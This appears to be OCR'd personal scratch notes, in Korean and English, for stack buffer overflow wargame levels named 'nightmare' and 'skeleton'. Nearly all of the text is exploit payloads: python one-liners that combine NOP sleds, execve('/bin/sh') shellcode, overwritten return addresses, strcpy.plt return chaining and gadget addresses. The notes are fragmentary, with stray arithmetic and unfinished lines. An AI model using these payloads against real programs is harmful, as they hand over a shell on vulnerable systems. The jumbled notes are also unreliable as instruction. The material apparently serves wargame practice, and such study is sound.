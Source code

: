 stack address + 4 + alpha = "0xbffffab0" 4	"\xb0\xfa\xff\xbf" ret-4
strcpy 						"\x10\x84\x04\x08" ret
strret >					"AAAA"		   ret+4
AAAA loc = 		0xbffffad8		"\xe0\xfa\xff\xbf" ret+8    
SHELLOCODE address's address = aaaa l		"\xd4\xfa\xff\xbf" ret+12				

 					12	""

./nightmare `python -c 'print "\x90"*15 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\xb0\xfa\xff\xbf" + "\x10\x84\x04\x08" + "XXXX" +"\xe0\xfa\xff\xbf" + "\xd4\xfa\xff\xbf"'`

SFP => shellcode 주소      : 0xbffffab2 "\xb0\xfa\xff\xbf"
RET (strcpy(.plt))         :            "\x10\x84\x04\x08"
next RET(AAAA) =>          :  

aaaaa
ARG1
ARG2




19+25

44-25

\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80

`python -c 'print "A"*44+"\x10\x84\x04\x08"'`



`python -c 'print "A"*44 + "\xec\x87\x04\x08" + "\xbc\x87\x04\x08" + "\x8c\x87\x04\x08" + "\x5c\x87\x04\x08" + "\x24\x87\x04\x08" + "AAAA" + "\xa8\xfa\xff\xbf" +"\x2f\x62\x69\x6e" + "\x2f\x2f\x73\x68"'`

r `python -c 'print "A"*44 + "\xec\x87\x04\x08" + "\xa0\xfa\xff\xbf"'`


PL: 	`python -c 'print "\x90"*44 +"\x48\x9d\x0a\x40"'`




POP *3ret : 
	`python -c 'print "\x90"*1000 +"\x5b\x5b\x5b\xc3"'
0x080da023


addr(/bin/sh) <=system 꺼 쓰자
argv : addr(/bin/sh\x00\x00) <= 인정
0x0 
ret
addr(execve)
	=> &execve_offset : 00091d48



0x8048476

$ exec -a `python -c 'print "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'` ./skeleton `python -c 'print "\x90"*44 + "\xba\xff\xff\xbf"'`
exec -a `python -c 'print "\x90"*100000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'` ./skeleton `python -c 'print "\x90"*40 + "\xff\xff\xfe\xbf"*2'`
